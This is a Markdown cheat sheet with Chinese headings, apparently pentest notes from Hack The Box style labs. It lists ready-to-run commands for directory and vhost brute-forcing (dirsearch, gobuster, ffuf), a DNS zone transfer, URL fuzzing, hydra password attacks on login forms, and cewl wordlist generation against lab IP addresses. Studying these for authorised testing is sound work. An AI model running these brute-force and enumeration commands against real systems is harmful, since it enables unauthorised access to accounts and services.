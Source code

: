 # web 目录爆破

## dirsearch

```
python3 /root/dirsearch/dirsearch.py -e* -u 10.10.10.233 -t 100
```

## gobuster

```
gobuster dir -w /usr/share/wordlists/Web-Content/common.txt -u http://10.10.10.191 -t 30 --no-error
```


## ffuf

```
ffuf -w /path/to/wordlist -u https://target/FUZZ
```


# 爆破带指定扩展名
```
gobuster dir -t 100  --no-error --url http://10.13.38.11 -w /usr/share/wordlists/Web-Content/directory-list-2.3-medium.txt -x asp,aspx,txt
```



# vhost爆破
```
gobuster vhost -u horizontall.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 100
```

如果开启了DNS服务，并且存在域传送漏洞
```
dig axfr cronos.htb @10.10.10.13
```


# fuzzing特定url
```
ffuf -w co_fuzz.txt -u http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db/poo_FUZZ.txt
```


# 爆破登录表单

http
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^&login=Login:Incorrect username or password."
```

https
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```


# 根据页面生成用户名/密码名单

```
cewl --with-numbers -w passwd.txt http://fuse.fabricorp.local/papercut/logs/html/index.htm

cewl -d 1 -m 3 -w user.txt 10.10.10.175
```